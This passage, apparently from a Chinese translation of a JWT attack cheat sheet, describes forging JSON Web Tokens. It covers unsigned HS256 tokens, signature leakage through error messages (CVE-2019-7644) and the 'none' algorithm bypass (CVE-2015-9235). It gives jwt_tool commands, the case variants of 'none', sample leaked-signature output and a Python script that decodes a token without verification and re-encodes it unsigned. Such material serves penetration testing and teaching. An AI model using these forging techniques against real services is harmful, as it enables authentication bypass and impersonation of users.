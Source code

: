 发送一个使用HS256算法但没有签名的JWT，例如`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.`

**利用方法**：

```ps1
python3 jwt_tool.py JWT_HERE -X n
```

**解构**：

```json
{"alg":"HS256","typ":"JWT"}.
{"sub":"1234567890","name":"John Doe","iat":1516239022}
```

### JWT 签名 - 正确的签名泄露（CVE-2019-7644）

发送一个具有错误签名的JWT，端点可能会响应错误并泄露正确的签名。

* [jwt-dotnet/jwt: 关键安全修复需要：每次SignatureVerificationException都会泄露正确的签名... #61](https://github.com/jwt-dotnet/jwt/issues/61)
* [CVE-2019-7644: Auth0-WCF-Service-JWT中的安全漏洞](https://auth0.com/docs/secure/security-guidance/security-bulletins/cve-2019-7644)

```
无效签名。预期为 SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c，实际得到 9twuPVu9Wj3PBneGw1ctrf3knr7RX12v-UwocfLhXIs
无效签名。预期为 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgB1Y=，实际得到 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgBOo=
```



### JWT签名 - 无算法（CVE-2015-9235）

JWT支持`无`算法进行签名。这可能是为了调试应用而引入的。然而，这对应用的安全性可能产生严重影响。
无算法变体：

* none 
* None
* NONE
* nOnE

要利用这个漏洞，你只需要解码JWT并更改用于签名的算法。然后你可以提交你的新JWT。然而，除非你**移除**了签名，否则这是行不通的。

或者，你可以修改现有的JWT（注意过期时间）

* 使用[ticarpi/jwt_tool](#)

  ```ps1
  python3 jwt_tool.py [JWT_HERE] -X a
  ```

* 手动编辑JWT

  ```python
  import jwt
  
  jwtToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'
  decodedToken = jwt.decode(jwtToken, verify=False)  					
  
  # 在使用类型'None'编码之前对令牌进行解码
  noneEncoded = jwt.encode(decodedToken, key='', algorithm=None)
  
  print(noneEncoded.decode())
  ```
